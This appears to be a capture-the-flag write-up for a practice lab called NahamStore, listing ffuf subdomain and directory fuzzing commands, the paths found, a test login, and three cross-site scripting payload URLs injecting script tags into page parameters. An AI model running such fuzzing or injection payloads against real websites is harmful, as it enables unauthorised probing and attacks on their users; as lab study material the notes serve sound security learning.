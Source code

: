 ___
test@test.com:testtest
# Recon

```bash
ffuf -w subdomains.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm"
```

- marketing
- shop
- stock
- www

```bash
ffuf -w content.txt -u http://nahamstore.thm/FUZZ
```

- basket
- css
- js
- login
- logout
- register
- returs
- robots.txt
- seach
- staff
- uploads

# XSS

## 1
```
http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert(1)%3C/script%3E
```

## 2 

![[Pasted image 20241219130847.png]]

```
http://nahamstore.thm/account/orders/7
```

![[Pasted image 20241219130918.png]]

## 3

![[Pasted image 20241219131422.png]]

```
http://nahamstore.thm/product?id=2&name=</title><script>alert(1)</script>
```


